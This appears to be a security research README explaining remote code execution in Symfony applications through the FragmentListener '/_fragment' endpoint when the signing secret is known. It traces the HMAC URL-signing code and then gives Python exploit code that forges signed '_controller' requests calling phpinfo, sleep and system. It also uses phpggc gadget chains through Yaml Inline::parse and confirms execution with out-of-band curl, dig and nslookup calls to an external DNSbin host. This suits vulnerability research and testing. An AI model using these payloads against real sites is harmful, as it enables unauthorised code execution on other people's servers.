

# Introduction

Based on the work of [@cfreal_](https://twitter.com/cfreal_)

## Edge Side Includes

Gateway caches are a great way to make website perform better. But they have a
limitation, they can only cache whole pages. If your pages contain dynamic
sections, such as the user name or a shopping cart, you are out of luck. Symfony
provides a solution for these cases, based on a technology called ESI (Edge Side
 Includes).

>Akamai wrote this specification in 2001 and it allows specific parts of a page
to have a different caching strategy than the main page.


When using a controller reference, the ESI tag should reference the embedded
action as an accessible URL so the gateway cache can fetch it independently of
the rest of the page. Symfony takes care of generating a unique URL for any
controller reference and it is able to route them properly thanks to the
`FragmentListener` that must be enabled in your configuration.

To set up the `FragmentListener`, use one of these three configurations:

Configuration 1:
File: <span style='color:red'>\<ROOT\>/config/packages/framework.yaml</span>
```yaml
# config/packages/framework.yaml
framework:
    # ...
    fragments: { path: /_fragment }
```

Configuration 2:
File: <span style='color:red'>\<ROOT\>/config/packages/framework.xml</span>
```xml
<!-- config/packages/framework.xml -->
<?xml version="1.0" encoding="UTF-8" ?>
<container xmlns="http://symfony.com/schema/dic/services"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:framework="http://symfony.com/schema/dic/symfony"
    xsi:schemaLocation="http://symfony.com/schema/dic/services
        https://symfony.com/schema/dic/services/services-1.0.xsd
        http://symfony.com/schema/dic/symfony
        https://symfony.com/schema/dic/symfony/symfony-1.0.xsd">

    <!-- ... -->
    <framework:config>
        <framework:fragment path="/_fragment"/>
    </framework:config>
</container>
```

Configuration 3:
File: <span style='color:red'>\<ROOT\>/config/packages/framework.php</span>
```php
// config/packages/framework.php
$container->loadFromExtension('framework', [
    // ...
    'fragments' => ['path' => '/_fragment'],
]);
```

Which activates the listeneer:

File: <span style='color:red'>\<ROOT\>/vendor/symfony/http-kernel/EventListener/FragmentListener.php</span>
```php
<?php

..

namespace Symfony\Component\HttpKernel\EventListener;

use Symfony\Component\EventDispatcher\EventSubscriberInterface;
use Symfony\Component\HttpFoundation\Request;
use Symfony\Component\HttpKernel\Event\RequestEvent;
use Symfony\Component\HttpKernel\Exception\AccessDeniedHttpException;
use Symfony\Component\HttpKernel\KernelEvents;
use Symfony\Component\HttpKernel\UriSigner;

/**
 * Handles content fragments represented by special URIs.
 *
 * ...
 *
 * @author Fabien Potencier <fabien@symfony.com>
 *
 * @final
 */
class FragmentListener implements EventSubscriberInterface
{
    private $signer;
    private $fragmentPath;

    /**
     * @param string $fragmentPath The path that triggers this listener
     */
    public function __construct(UriSigner $signer, string $fragmentPath = '/_fragment')
    {
        $this->signer = $signer;
        $this->fragmentPath = $fragmentPath;
    }

    /**
     * Fixes request attributes when the path is '/_fragment'.
     *
     * @throws AccessDeniedHttpException if the request does not come from a trusted IP
     */
    public function onKernelRequest(RequestEvent $event)
    {
        $request = $event->getRequest();

        if ($this->fragmentPath !== rawurldecode($request->getPathInfo())) {
            return;
        }

        if ($request->attributes->has('_controller')) {
            // Is a sub-request: no need to parse _path but it should still be removed from query parameters as below.
            $request->query->remove('_path');

            return;
        }

        if ($event->isMasterRequest()) {
            $this->validateRequest($request);
        }

        parse_str($request->query->get('_path', ''), $attributes);
        $request->attributes->add($attributes);
        $request->attributes->set('_route_params', array_replace($request->attributes->get('_route_params', []), $attributes));
        $request->query->remove('_path');
    }

    protected function validateRequest(Request $request)
    {
        // is the Request safe?
        if (!$request->isMethodSafe()) {
            throw new AccessDeniedHttpException();
        }

        // is the Request signed?
        if ($this->signer->checkRequest($request)) {
            return;
        }

        throw new AccessDeniedHttpException();
    }

    public static function getSubscribedEvents(): array
    {
        return [
            KernelEvents::REQUEST => [['onKernelRequest', 48]],
        ];
    }
}
```

### Note:

It's important to note that the `FragmentListener` is not activated by default
on Synfony v5.1.2 but may be set up by developpers that use cache functionnality.

# FragmentListener

Once the listener is activated let's try to make a request to [http://\<BASE_URL\>/_fragment]()



The error displayed indicate that it came from the call to function `validateRequest()`:

File: <span style='color:red'>\<ROOT\>/vendor/symfony/http-kernel/EventListener/FragmentListener.php</span>
```php
protected function validateRequest(Request $request)
{
    // is the Request safe?
    if (!$request->isMethodSafe()) {
        throw new AccessDeniedHttpException();
    }

    // is the Request signed?
    if ($this->signer->checkRequest($request)) {
        return;
    }

    throw new AccessDeniedHttpException();
}
```

Which throw the object `AccessDeniedHttpException`.

File: <span style='color:red'>\<ROOT\>/vendor/symfony/http-kernel/Exception/AccessDeniedHttpException.php</span>
```php
<?php
namespace Symfony\Component\HttpKernel\Exception;

/**
 * @author Fabien Potencier <fabien@symfony.com>
 * @author Christophe Coevoet <stof@notk.org>
 */
class AccessDeniedHttpException extends HttpException
{
    /**
     * @param string     $message  The internal exception message
     * @param \Throwable $previous The previous exception
     * @param int        $code     The internal exception code
     */
    public function __construct(string $message = null, \Throwable $previous = null, int $code = 0, array $headers = [])
    {
        parent::__construct(403, $message, $previous, $headers, $code);
    }
}
```

There is two possible way to trigger the error:
1. `$request->isMethodSafe()` return false.
2. `$this->signer->checkRequest($request)` return false.

After inspecting function `isMethodSafe()`:

File: <span style='color:red'>\<ROOT\>/vendor/symfony/http-foundation/Request.php</span>
```php
public function isMethodSafe()
{
    return \in_array($this->getMethod(), ['GET', 'HEAD', 'OPTIONS', 'TRACE']);
}
```

We realize that the problem comes from `$this->signer->checkRequest($request)`. Now we gona inspect the code of funtion `checkRequest()` from class `UriSigner`:

File: <span style='color:red'>\<ROOT\>vendor/symfony/http-kernel/UriSigner.php</span>
```php
public function checkRequest(Request $request): bool
{
    $qs = ($qs = $request->server->get('QUERY_STRING')) ? '?'.$qs : '';

    // we cannot use $request->getUri() here as we want to work with the original URI (no query string reordering)
    return $this->check($request->getSchemeAndHttpHost().$request->getBaseUrl().$request->getPathInfo().$qs);
}
```

Which call function `check()` from the same class:

File: <span style='color:red'>\<ROOT\>vendor/symfony/http-kernel/UriSigner.php</span>
```php
public function check(string $uri)
{
    $url = parse_url($uri);
    if (isset($url['query'])) {
        parse_str($url['query'], $params);
    } else {
        $params = [];
    }

    if (empty($params[$this->parameter])) {
        return false;
    }

    $hash = $params[$this->parameter];
    unset($params[$this->parameter]);

    return hash_equals($this->computeHash($this->buildUrl($url, $params)), $hash);
}
```

Which call function `computeHash()` from the same class:

File: <span style='color:red'>\<ROOT\>vendor/symfony/http-kernel/UriSigner.php</span>
```php
private function computeHash(string $uri): string
{
    return base64_encode(hash_hmac('sha256', $uri, $this->secret, true));
}
```

If we are able to identify the value of `$this->secret`, we are able to craft
valid URL.

# Using _controller to trigger RCE

## Direct call to PHP's functions

In the Symfony documentaton it is explained that controller are function we can
create that reads information from the Request object and creates and returns a
Response object. The response could be an HTML page, JSON, XML, a file download,
a redirect, a 404 error or anything else. The controller executes whatever
arbitrary logic the application needs to render the content of a page.

But it is also said that :

> While a controller can be any PHP callable (function, method on an object, or
a Closure), a controller is usually a method inside a controller class.

So a controller may be any PHP callable function such as `phpinfo()`, `system()`
, etc.

Here is the sample of the code use to test if direct calls to PHP's functions
works :

File: <span style='color:red'>rce.py</span>
```python

...

def controller(self):
    # Checks that it is possible to trigger
    # phpinfo ([ int $what = INFO_ALL ] ) : bool
    # or
    # sleep ( int $seconds ) : int
    # functions.
    #
    # return (array[bool]) [True, url] if the functions
    # has been executed, False otherwise.
    printf("un", f"Using _controller with PHP's functions ...")
    results = []
    payloads = [
        {"function": "phpinfo", "parameters": [
            {"name": "what", "value": -1}]},
        {"function": "sleep", "parameters": [
            {"name": "seconds", "value": SLEEP}]}
    ]
    for payload in payloads:
        query = f"_controller={payload['function']}"
        for parameter in payload['parameters']:
            query += f"&{parameter['name']}={parameter['value']}"
        self.payload = f"{self.url}?_path={up.quote_plus(query)}"
        self.compute_hash()
        r = requests.get(
            f"{self.payload}&_hash={up.quote_plus(self.hash.decode())}")
        condition = [
            payload['function'] == "phpinfo" and r.text.find(
                "PHP Version"),
            payload['function'] == "sleep" and r.elapsed.total_seconds() > SLEEP/2
        ]
        if condition[0] or condition[1]:
            results.append([True, r.url])
            break
    return results

...

```


## Call to Symfony\Component\Yaml\Inline::parse

After reading the Symfony [documentation](https://symfony.com/doc/current/components/yaml.html)
it seem possible to use the componment `Symfony\Component\Yaml\Inline`
function's `parse()` to trigger a call to `unserialize()`.

File: <span style='color:red'>poc.php</span>
```php
<?php
require_once(__DIR__.'/vendor/autoload.php');

use Symfony\Component\Yaml\Yaml;
use Symfony\Component\Yaml\Inline;

echo "Exemple 1:" . "\n";
$object = new stdClass();
$object->foo = 'bara';

var_dump($object);

$dumped = Inline::dump($object, Yaml::DUMP_OBJECT);
echo "Dumped object:" . "\n";
echo $dumped . "\n\n";

echo "Exemple 2:" . "\n";
$string = '!php/object \'O:8:"stdClass":1:{s:3:"foo";s:4:"barb";}\'';
var_dump($string);
$parsed = Inline::parse($string, Yaml::PARSE_OBJECT);
echo "Parsed string is_object(): " . is_object($parsed) . "\n";
var_dump($parsed);
?>
```

Result:
```
▶ php poc.php
Exemple 1:
object(stdClass)#3 (1) {
  ["foo"]=>
  string(4) "bara"
}
Dumped object:
!php/object 'O:8:"stdClass":1:{s:3:"foo";s:4:"bara";}'

Exemple 2:
string(54) "!php/object 'O:8:"stdClass":1:{s:3:"foo";s:4:"barb";}'"
Parsed string is_object(): 1
object(stdClass)#2 (1) {
  ["foo"]=>
  string(4) "barb"
}
```

To use the _controller componment we need to specify all the argument of the 
called function. 

File: <span style='color:red'>\<ROOT\>/vendor/symfony/yaml/Yaml.php</span>
```php
<?php

/*
 * This file is part of the Symfony package.
 *
 * (c) Fabien Potencier <fabien@symfony.com>
 *
 * For the full copyright and license information, please view the LICENSE
 * file that was distributed with this source code.
 */

namespace Symfony\Component\Yaml;

use Symfony\Component\Yaml\Exception\ParseException;

/**
 * Yaml offers convenience methods to load and dump YAML.
 *
 * @author Fabien Potencier <fabien@symfony.com>
 *
 * @final
 */
class Yaml
{
    const DUMP_OBJECT = 1;
    const PARSE_EXCEPTION_ON_INVALID_TYPE = 2;
    const PARSE_OBJECT = 4;
    const PARSE_OBJECT_FOR_MAP = 8;
    const DUMP_EXCEPTION_ON_INVALID_TYPE = 16;
    const PARSE_DATETIME = 32;
    const DUMP_OBJECT_AS_MAP = 64;
    const DUMP_MULTI_LINE_LITERAL_BLOCK = 128;
    const PARSE_CONSTANT = 256;
    const PARSE_CUSTOM_TAGS = 512;
    const DUMP_EMPTY_ARRAY_AS_SEQUENCE = 1024;
    const DUMP_NULL_AS_TILDE = 2048;

...

```

Here is the sample of the code use to test if it's possible to trigger an unserialize using `Symfony\Component\Yaml\Inline::parse`:

File: <span style='color:red'>rce.py</span>
```python

...

def yaml(self, oob_url, parse_url):
    # Checks that it is possible to trigger
    # an Out Of Bound RCE using Symfony\Component\Yaml\Inline
    # to leverage a call to unserialize.
    #
    # return (array[bool]) [True, url] if the functions
    # has been executed, False otherwise.
    printf("un", f"Using _controller with Yaml's Inline::parser() function ...")
    results = []
    payloads = [
        {"function": "system", "parameter": f"host {oob_url}"},
        {"function": "system", "parameter": f"dig {oob_url}"},
        {"function": "system", "parameter": f"nslookup {oob_url}"},
        {"function": "system", "parameter": f"curl http://{oob_url}"}
    ]
    for payload in payloads:
        query = "_controller=Symfony\\Component\\Yaml\\Inline::parse"
        try:
            out = subprocess.check_output(
                ["./lib/phpggc/phpggc",
                    "-s",
                    "monolog/rce1",
                    payload['function'],
                    payload['parameter']])
            query += f"&value=!php/object '{out.decode()}'"
        except:
            pass
        query += "&flags=4"
        query += "&references[]="
        self.payload = f"{self.url}?_path={up.quote_plus(query)}"
        self.compute_hash()
        r = S.get(
            f"{self.payload}&_hash={up.quote_plus(self.hash.decode())}")
        driver.get(parse_url)
        elt = driver.find_element_by_id(id_='requests')
        condition = "mydatahere" in elt.text
        if condition:
            results.append([True, r.url])
            break
    return results

    ...

```

Checked if the execution took place by checking [DNSbin](https://github.com/ettic-team/dnsbin) results (require a DNSbin exposed on the internet).